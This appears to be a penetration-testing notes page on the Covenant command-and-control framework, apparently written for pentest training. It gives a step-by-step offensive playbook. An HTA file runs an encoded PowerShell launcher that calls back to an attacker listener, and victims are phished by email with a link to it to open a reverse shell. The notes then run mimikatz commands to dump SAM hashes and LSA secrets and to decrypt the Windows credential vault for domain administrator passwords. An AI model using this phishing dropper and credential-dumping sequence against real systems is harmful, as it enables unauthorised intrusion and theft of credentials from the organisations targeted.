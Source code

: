 # Covenant

## Installation

### Install Dotnet

```
cd /tmp  
wget https://packages.microsoft.com/config/ubuntu/21.04/packages-microsoft-prod.deb -O packages-microsoft-prod.deb 
sudo dpkg -i packages-microsoft-prod.deb 
sudo apt update -y  
sudo apt-get install -y apt-transport-https dnsutils 
sudo apt-get update  
sudo apt-get install -y dotnet-sdk-3.1 
```

### Install and launch Covenant

```
sudo git clone --recurse-submodules https://github.com/ZeroPointSecurity/Covenant.git /opt/Covenant 
cd /opt/Covenant/Covenant
sudo dotnet run
```
- Navigate to https://127.0.0.1:7443 set up your user and you should be good to go

## Local Enumeration

- Suppose we have a grunt (a shell on the target) so we want to enumerate the target
- Click on the grunt > Interact
- Use Seatbelt `Seatbelt -group=all`
  - We will get useful info: local users, dns info (such as email domain and all), interesting files, etc.
- Use the cmd `GetDomainUser` to enumerate domain users
- Use the cmd `GetNetLoggedOnUser`to have a list of logged on users
- Use the cmd `GetNetLocalGroup` to have a list of local group
- etc.

## hta Email Phishing

- Create and hta file in your attacking machine:

```
<script language="VBScript">
  Function DoStuff()
    Dim wsh
    Set wsh = CreateObject("Wscript.Shell")
    wsh.run "<powershell command here>"
    Set wsh = Nothing
  End Function

  DoStuff
  self.close
</script>
```

- Create an HTTP listener in Covenant
  - Listener > create 
  - The table in listener should look like this  
    | Name        |    ListenerType | Status | StartTime	    |        ConnectAddresses   |   ConnectPort|
    |-------------|-----------------|--------|----------------|---------------------------|--------------|
    |HTTP Listener |	HTTP 	        |Active 	|3/7/2022 8:28:13 PM |	IP-OF-ATTACK-MACHINE 	    | 80

  - Go to Launchers > Powershell
  - Fill up the info, be careful taht the killdate is later in the future (not in the past)
  - Click on generate
  - Copy the encoded Launcher and put it in the script above instead of `<powershell command here>` 
  - Save the script
  - Go back to Listerners click on the listener that was just set up 
  - Go to Hosted Files, in Path enter `/name-of-your-script.hta`
  - Click on Browse and select your script
  - And click on create
  - If we go to `http://localhost/name-of-your-script.hta` we should be able to download it
- We can now send an email with a link to our reverse shell `http://IP-OF-ATTACK-MACHINE/name-of-your-script.hta`
- When the user will click the link an run the script we will get our reverse shell
- If we go to Covenant again and check in Grunt we should have a new one
- If you are not able to execute command (they stay Uninitialized) try either of those:  
  - Verify the kill date of the launcher
  - the UI may not allow changing the date.  This can be fixed by deleting the `/opt/Covenant/Covenant/data/covenant.db` file and restarting the service. You will lose all data and need to create a new user to log in with.

## Dump hashes with mimikatz

- In a high grunt
- We can use this to see if any plaintext info might come out `Mimikatz token::elevate lsadump::secrets`
- Will dump the sam file (where password hashes are stored in windows)`Mimikatz token::elevate lsadump::sam`
- Covenant will save the Crendentials in the Data section as well

## Cracking Credential Vault with mimikatz

- We need a medium integrity grunt
- `mimikatz vault::cred` will show all services with persisted passwords
- `ls C:\users\user\appdata\local\microsoft\credentials` will list the passwords files the smallest of the files is gemerally the one we need.
- We then go to the tab tak in our grunt. We select Mimikatz from the list and type this task: `"dpapi::cred /in:C:\users\user\appdata\local\microsoft\credentials\FILE-PREVIOUSLY-CHOSEN"`
- From the output of the task we need to keep aside the value of the guidMasterKey 
- `ls C:\users\user\appdata\roaming\microsoft\protect` this should list a directory with an sid value in the end
- If you do an ls on this it should list the same path with the guidMasterKey value we previously found. We need to copy the full path, and then we go to task again and using mimikatz we need to type `"dpapi::masterkey /in:C:\users\user\appdata\roaming\microsoft\protect\sid\guidMasterKey /rpc"`
- This way we will het in the end of the output the key for the domain controller which should look like this: `key : 60f202bff3c6e2eaedfc4c28ac1adbdd102ec7dba401157f6f8c2056205507ed4e6d93120ebe48959751c0f2c939e515382d7ffec7bd2b129c8eb89466b31f0f`
- We need to keep this key aside
- We go back to task and we type `"dpapi::cred /in:C:\users\user\appdata\local\microsoft\credentials\sid /masterkey:<PASTE-THE-KEY-HERE>"
- This should dump the domain password, you should see it at the end of the output:
  ```
  UserName       : domain\Administrator
  CredentialBlob : Password123!
  ```

## Resources

{% embed url="https://github.com/cobbr/Covenant" %} Get Covenant here {% endembed %}
{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} Movement Pivoting and Persistence - TCM Security Academy {% endembed %}
